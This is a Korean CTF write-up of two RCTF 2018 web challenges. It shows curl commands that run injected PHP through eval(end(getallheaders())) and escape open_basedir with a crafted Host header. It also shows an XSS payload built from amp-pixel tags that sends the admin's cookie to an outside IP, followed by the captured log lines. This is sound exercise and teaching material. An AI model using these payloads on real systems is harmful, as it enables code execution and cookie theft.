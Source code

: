 # RCTF 2018 Quals 

## Introduce

뭔가 요즘 xctf 플랫폼을 많이 사용하는 것 같다.

## writeup

### - r-cursive

>LUL dat font
>
>http://r-cursive.ml

문제에 접속하면 단순히 sandbox를 생성해주는 페이지에 접속한다.~~(폰트가 정말 거지같다.)~~

```html
<?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
<style>code{font-family: Segoe Script, Brush Script MT, cursive; font-size: 1.337em;}</style>
```

action=go를 통해 sandbox페이지로 이동해보면 소스코드는 간단하다.

```html
<?php
sha1($_SERVER['REMOTE_ADDR']) === 'c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

cmd뒤에 명령어를 삽입해주면 되는데, 정규식으로 인해 쿼리는 `phpinfo();`, `print_r(scandir(getcwd()));` 와 같은 형태로 함수로만 넣을 수 있다.

하지만 이 문제는 `open_basedir`이 적용되어 있어, `/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/`,`/tmp/` 외의 디렉토리는 사용할 수 없다.

disable_functions, disable_classes를 보기위해 `phpinfo()` 를 실행시켰는데, 다른 것 또한 발견하였다.

```ini
disable_functions = system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link	
disable_clsass = GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator	
auto_prepend_file = /var/www/sandbox/init.php
open_basedir = /var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/	
Loaded Modules = ... mod_vhost_alias
```

우선 정규식을 우회하기 위해 `getallheaders()`함수를 사용했다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" 
<br />
<b>Warning</b>:  readfile(): open_basedir restriction in effect. File(../init.php) is not within the allowed path(s): (/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/) in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
<br />
<b>Warning</b>:  readfile(../init.php): failed to open stream: Operation not permitted in <b>/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/index.php(3) : eval()'d code(1) : eval()'d code</b> on line <b>1</b><br />
/var/www/sandbox/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/:/tmp/
```

이제 `open_basedir`을 우회하기 위해 header의 host를 `.r-cursive.ml` 로 변경하였고, 이로 인해 sandbox를 탈출하여 init.php를 열었고 플래그를 획득할 수 있었다.

```
$ curl "http://c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295.sandbox.r-cursive.ml:1337/c9bfd6fc4ed10bcd8abd93062b6b643cbcce0295/?cmd=eval(end(getallheaders()));" -H "a:print_r(readfile('../init.php'));print_r(ini_get('open_basedir'));" -vv -H "Host:.r-cursive.ml"

<?php
    ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
    // flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
?>
```



FLAG : RCTF{apache_mod_vhost_alias_should_be_configured_correctly}



### - AMP

> No Description

페이지에 접속하면 steins;gate 0를 배경으로 한 페이지가 나타난다.

```html

<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="a42dd51d96f82575cfd2fe674c3bb46e"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="a42dd51d96f82575cfd2fe674c3bb46e">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>

```

Querystring에 name을 넣으라고 하니까 넣어보자.

```
http://amp.2018.teamrois.cn/?name=shpik
```

그러면 페이지에 다음과 같은 문구가 추가된다.

```html
Dear shpik:
YOU'RE BEING TRACKING
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
[STOP TRACKING ME]
```

..?  `STOP TRACKING ME` 를 누르면 뭔가 admin이 이 페이지를 읽는 것 같다.

그 외에 스크립트 또한 삽입이 잘 되는 걸로 봐서 `Reflect XSS` 인 모양이다. 

`AMP`라는 `javascript` 모듈을 사용하는 것 같아서 찾아보았고, 다음의 정보를 찾았다.([AMP Project](https://github.com/ampproject/amphtml/blob/master/spec/amp-var-substitutions.md#client-id))

> #### Client ID
>
> Provides a per document-source-origin (the origin of the website where you publish your AMP doc) and user identifier. The client ID will be the same for the same user if they visit again within one year. The client ID should behave roughly similar to a cookie storing a session ID for one year. If the AMP document is not served through the Google AMP Cache, the client ID is replaced with a cookie of the name of the `cid scope` argument (see below). If it is not present, a cookie will be set with the same name. These cookies will always have the prefix "amp-" followed by a random base64 encoded string.
>
> - **platform variable**: `CLIENT_ID`
>
>   - Example: 
>
>   ```
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name)"></amp-pixel>
>   
>   <amp-user-notification
>       layout=nodisplay
>       id="user-consent"
>       data-show-if-href="https://foo.com/api/show"
>       data-dismiss-href="https://foo.com/api/dismissed">
>       This site uses cookies to personalize content.
>       <a href="">Learn more.</a>
>      <button on="tap:user-consent.dismiss">I accept</button>
>   </amp-user-notification>
>   
>   <!-- Client ID is not provided until `user-consent` is dismissed -->
>   <amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(cid-scope-cookie-fallback-name,user-consent)"></amp-pixel>
>   ```
>
> - **amp-analytics variable**: `${clientId}`
>
>   - Example usage: `${clientId(foo)}`
>   - Example value: `U6XEpUs3yaeQyR2DKATQH1pTZ6kg140fvuLbtl5nynbUWtIodJxP5TEIYBic4qcV`

저기에 있는 `Example` 을 그냥 가져다 써도 될 것 같다.

```html
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG)"></amp-pixel>
<amp-user-notification layout=nodisplay id="FLAG" data-show-if-href="https://35.200.67.206:10101" data-dismiss-href="https://35.200.67.206:10101">This site uses cookies to personalize content.<a href="">Learn more.</a><button on="tap:user-consent.dismiss">I accept</button></amp-user-notification>
<amp-pixel src="https://35.200.67.206:10101/?cid=CLIENT_ID(FLAG,FLAG)"></amp-pixel>
```

위의 코드를 name으로 넣어주었으며, FLAG를 얻을 수 있었다.

```
58.76.163.238 - - [22/May/2018 15:30:23] "GET /?cid=flag_is_in_admin_cookie HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:23] "GET /?cid= HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:24] "GET /?cid=RCTF%7BEl_PsY_CONGRO0_sg0%7D HTTP/1.1" 200 -
58.76.163.238 - - [22/May/2018 15:30:24] "GET /?cid= HTTP/1.1" 200 -
```

 

FLAG : RCTF{El_PsY_CONGRO0_sg0}